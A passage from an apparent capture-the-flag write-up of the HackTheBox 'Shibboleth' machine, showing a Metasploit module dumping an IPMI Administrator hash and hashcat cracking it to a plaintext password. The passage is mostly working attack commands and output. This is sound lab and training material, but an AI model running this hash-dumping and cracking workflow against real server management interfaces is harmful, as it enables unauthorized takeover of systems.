 We can create a new user and give administrator privileges, but for this machine it is no use. However, we can dump the password hash of existing administrator user.

[Cracking IPMI Passwords Remotely](http://fish2.com/ipmi/remote-pw-cracking.html)

```
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > options

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                  Current Setting                             Required  Description
   ----                  ---------------                             --------  -----------
   CRACK_COMMON          true                                        yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                               no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                  no        Save captured password hashes in john the ripper format
   PASS_FILE             /usr/share/metasploit-framework/data/wordl  yes       File containing common passwords for offline cracking, one per line
                         ists/ipmi_passwords.txt
   RHOSTS                shibboleth.htb                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Us
                                                                               ing-Metasploit
   RPORT                 623                                         yes       The target port
   SESSION_MAX_ATTEMPTS  5                                           yes       Maximum number of session retries, required on certain BMCs (HP iLO 4, etc)
   SESSION_RETRY_DELAY   5                                           yes       Delay between session retries in seconds
   THREADS               1                                           yes       The number of concurrent threads (max one per host)
   USER_FILE             /usr/share/metasploit-framework/data/wordl  yes       File containing usernames, one per line
                         ists/ipmi_users.txt

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.x.x.x:623 - IPMI - Hash found: Administrator:d0a52b5682060000992915120e7a1d6215cbb2472e92c4172752d388d780ba278549e3cb30c13928a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:9319683685684c8275a349fcd8b2772d28cb1112
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

We got the hash, we can crack it with Hashcat.

```
⛩\> hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt

--------------SNIP--------------

d0a52b5682060000992915120e7a1d6215cbb2472e92c4172752d388d780ba278549e3cb30c13928a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:9319683685684c8275a349fcd8b2772d28cb1112:ilovepumkinpie1

Session..........: hashcat
Status...........: Cracked
Hash.Name........: IPMI2 RAKP HMAC-SHA1
```
